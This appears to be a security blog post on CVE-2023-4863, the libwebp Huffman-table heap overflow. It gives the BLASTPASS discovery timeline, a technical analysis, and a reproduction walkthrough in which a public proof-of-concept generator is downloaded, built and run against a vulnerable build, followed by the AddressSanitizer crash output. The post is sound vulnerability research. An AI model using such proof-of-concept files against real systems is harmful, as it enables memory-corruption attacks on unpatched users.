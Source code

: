 ```yaml
---
title: "CVE-2023-4863: The WebP 0day"
categories:
  - CVEs
tags:
  - CVEs
---
```

Last month, a new zero-day vulnerability was uncovered when Google released a critical update for its Chrome browser. A warning that accompanied the CVE announcement said "Google is aware that an exploit for CVE-2023-4863 exists in the wild": an active threat actor has already exploited this vulnerability. 

**CVE-2023-4863:** Heap buffer overflow in libwebp in Google Chrome prior to 116.0.5845.187 and libwebp 1.3.2 allowed a remote attacker to perform an out of bounds memory write via a crafted HTML page.
{: .notice--info}

## Discovery Timeline
The discovery of CVE-2023-4863 is intricately linked to an earlier Apple CVE, CVE-2023-41064. It all began when Citizen Lab detected suspicious activity on an iPhone belonging to an employee of a Washington DC-based civil society organization. Dubbed "BLASTPASS," this activity was attributed to an NSO Group's Pegasus spyware exploit, specifically a zero-click exploit for iMessage.

Apple swiftly responded by releasing a security bulletin, featuring two new CVEs, CVE-2023-41061 and CVE-2023-41064. On these CVEs, Apple noted, "Apple is aware of a report that this issue may have been actively exploited."

The BLASTPASS attack bypassed the iMessage sandbox, likely by embedding a malicious image in a PassKit attachment. This attack corresponds to the first CVE released by Apple, CVE-2023-41061. The second CVE, CVE-2023-41064, identified a buffer overflow vulnerability in ImageIO, Apple's image parsing framework.

However, the key insight comes from the fact that ImageIO recently started supporting WebP files. Shortly before Apple's security bulletin, Apple's team reported a WebP vulnerability to Chrome, which was rapidly patched. Google marked this fix as "exploited in the wild." It appears that the BLASTPASS vulnerability and CVE-2023-4863 (the WebP 0day) are one and the same.

## The WebP 0day - Technical Analysis
The technical analysis of CVE-2023-4863 sheds light on the inner workings of this zero-day vulnerability. By cross-referencing Chrome's bug ID with open source commits in the libwebp library code, an essential patch was identified: "Fix OOB write in BuildHuffmanTable." This patch was created one day after Apple's report and corresponds to CVE-2023-4863.

This vulnerability is associated with the "lossless compression" support for WebP, using Huffman coding. This coding is a critical component of lossless image compression, where an algorithm assigns shorter or longer sequences of output bits based on the frequency of input values. The vulnerability resided in the handling of the Huffman tables when decoding an untrusted image, leading to an out-of-bounds write.
 
To exploit this issue, an attacker would need to manipulate code lengths, allowing them to exceed the pre-calculated buffer size. The complexity of the Huffman tree and the interaction between various factors make crafting a triggering file non-trivial.

## Technical Walkthrough
I simply wanted to walkthrough the POC process, so I leveraged the research of @mistymntcop and @isosceles. They worked together to reproduce the issue and create a buffer overflow. 

I replicated the bug with the following code:
```html
 # checkout webp
$ git clone https://chromium.googlesource.com/webm/libwebp/ webp_test
$ cd webp_test/
  # checkout vulnerable version
$ git checkout 7ba44f80f3b94fc0138db159afea770ef06532a0
  # enable AddressSanitizer
$ sed -i 's/^EXTRA_FLAGS=.*/& -fsanitize=address/' makefile.unix
  # build webp
$ make -f makefile.unix
$ cd examples/
  # fetch mistymntncop's proof-of-concept code
$ wget https://raw.githubusercontent.com/mistymntncop/CVE-2023-4863/main/craft.c
  # build and run proof-of-concept
$ gcc -o craft craft.c
$ ./craft bad.webp
  # test trigger file
$ ./dwebp bad.webp -o test.png
```
Which generated the following output:
```html
  SUMMARY: AddressSanitizer: heap-buffer-overflow (/home/kali/webp_test/examples/dwebp+0x9eaec) (BuildId: 4c1cbf5ffb5b244be01b298cd51c59ec4d429d35) in BuildHuffmanTable
Shadow bytes around the buggy address:
  0x626000002c80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002d00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002d80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002e00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002e80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x626000002f00: 00 00 00 00 00[fa]fa fa fa fa fa fa fa fa fa fa
  0x626000002f80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003000: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003080: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003100: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003180: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==22919==ABORTING
```
Despite having limited control over the written value, this POC proves that this version of webp is exploitable via buffer overflow.

## Final Thoughts
The discovery of the WebP 0day, CVE-2023-4863, sheds light on the challenges and complexities of zero-day vulnerabilities in widely used open source libraries. This issue underscores the need for a more comprehensive approach to cybersecurity, combining fuzzing, code audits, and manual analysis.
